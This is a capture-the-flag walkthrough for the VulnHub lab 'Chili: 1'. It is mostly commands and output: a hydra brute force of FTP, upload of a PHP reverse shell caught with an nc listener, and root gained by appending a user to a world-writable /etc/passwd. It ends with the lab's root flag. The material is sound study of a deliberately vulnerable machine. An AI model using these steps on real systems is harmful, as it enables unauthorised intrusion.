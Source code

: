 **Vulnhub > Chili 1**

# Description

* Name: Chili: 1
* Date release: 14 Sep 2020
* Author: SunCSR Team
* Series: Chili
* Difficulty: Easy
* Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)
* Goal: Get the root shell i.e.(`root@localhost:~#`) and then obtain flag under /root).
* Hint : "If you ever get stuck, try again with the name of the lab"

# Services enumeration

Nmap reveals that 2 services are running on the target: FTP and HTTP.

~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Chili
Service Info: OS: Unix
~~~

# FTP

## Brute force chili's account

The FTP service doesn't allow anonymous access. It is fair enough to assume that a `chili` user exists. Let's brute force it with `hydra`:

~~~
kali@kali:/data/Chili-1/files$ hydra -l chili -P /usr/share/wordlists/rockyou.txt ftp://chili.box
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-20 16:55:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://chili.box:21/
[STATUS] 292.00 tries/min, 292 tries in 00:01h, 14344107 to do in 818:44h, 16 active
[STATUS] 289.33 tries/min, 868 tries in 00:03h, 14343531 to do in 826:15h, 16 active
[STATUS] 289.43 tries/min, 2026 tries in 00:07h, 14342373 to do in 825:55h, 16 active
[STATUS] 287.87 tries/min, 4318 tries in 00:15h, 14340081 to do in 830:16h, 16 active
[21][ftp] host: chili.box   login: chili   password: a1b2c3d4
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-20 17:11:22
~~~

Hydra successfully found the password: `a1b2c3d4`. Let's connect as `chili`:

~~~
kali@kali:/data/Chili-1/files$ ftp chili.box
Connected to chili.box.
220 (vsFTPd 3.0.3)
Name (chili.box:kali): chili
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1000     1000         4096 Sep 08 13:15 .
drwxr-xr-x    3 0        0            4096 Sep 08 12:21 ..
-rw-r--r--    1 1000     1000          220 Sep 07 02:50 .bash_logout
-rw-r--r--    1 1000     1000         3526 Sep 07 02:50 .bashrc
drwxr-xr-x    3 1000     1000         4096 Sep 08 12:22 .local
-rw-r--r--    1 1000     1000          807 Sep 07 02:50 .profile
226 Directory send OK.
~~~

## Browse the file system

There is nothing interesting in `chili`'s home directory, but there is no directory limitation, and we are allowed to browse the entire file system:

~~~
ftp> pwd
257 "/home/chili" is the current directory
ftp> cd /var/www/html
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Sep 08 13:12 .
drwxr-xr-x    3 0        0            4096 Sep 08 11:41 ..
drwxrwxrwx    2 0        0            4096 Sep 08 13:14 .nano
drwxr-xr-x    2 0        0            4096 Sep 08 13:12 .vim
-rw-r--r--    1 0        0           74290 Oct 23  2018 Chile_WEB.jpg
-rw-r--r--    1 0        0             657 Sep 08 11:44 index.html
226 Directory send OK.
~~~

## Upload a PHP reverse shell

Besides, it appears that the user is allowed to write files on the server. Let's download a [PHP reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and upload it on the server.

~~~
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
~~~

Unfortunately, we can't write at the root of the web server, but there are 2 directories (`.nano` and `.vim`) with write access. Upload the PHP reverse shell and give it appropriate permissions.

~~~
ftp> cd .nano
250 Directory successfully changed.
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
20 bytes sent in 0.00 secs (260.4167 kB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Sep 20 11:24 .
drwxr-xr-x    4 0        0            4096 Sep 08 13:12 ..
-rw-r--r--    1 1000     1000            0 Sep 08 13:14 index.html
-rw-------    1 1000     1000           20 Sep 20 11:24 shell.php
226 Directory send OK.
ftp> chmod 644 shell.php
200 SITE CHMOD command ok.
~~~

# Reverse shell

Start a listener (`rlwrap nc -nlvp 4444`) and browse the following URL:

~~~
$ curl http://chili.box/.nano/shell.php
~~~

A reverse shell is now spanwned in our listener window:

~~~
kali@kali:/data/Chili-1/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.130] 45616
Linux chili 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 11:32:49 up 42 min,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

# Privilege escalation

Running `linpeas.sh` on the target will spot that the `/etc/passwd` file is world-writable:

~~~
www-data@chili:/tmp$ ls -la /etc/passwd
ls -la /etc/passwd
-rw-r--rw- 1 root root 1450 Sep  8 12:23 /etc/passwd
~~~

Let's create a new user with root privileges:

~~~
www-data@chili:/tmp$ openssl passwd -1 -salt pwn chili
openssl passwd -1 -salt pwn chili
$1$pwn$HyrNVu9H4h183T74U0RD//
www-data@chili:/tmp$ printf 'pwn:$1$pwn$HyrNVu9H4h183T74U0RD//:0:0:root:/root:/bin/bash\n' >> /etc/passwd
<74U0RD//:0:0:root:/root:/bin/bash\n' >> /etc/passwd
~~~

# Root flag

Now, let's connect as `pwn:chili` and get the root flag:

~~~
www-data@chili:/tmp$ su pwn
su pwn
Password: chili

root@chili:/tmp# cd /root
cd /root
root@chili:~# ls -la
ls -la
total 32
drwx------  3 root root 4096 Sep  8 13:15 .
drwxr-xr-x 18 root root 4096 Sep  7 02:47 ..
-rw-------  1 root root  126 Sep  8 13:15 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Sep  8 11:43 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   47 Sep  8 12:26 proof.txt
-rw-r--r--  1 root root  176 Sep  8 11:43 .wget-hsts
root@chili:~# cat proof.txt
cat proof.txt
Sun_CSR.Chili.af6d45da1f1181347b9e2139f23c6a5b
~~~
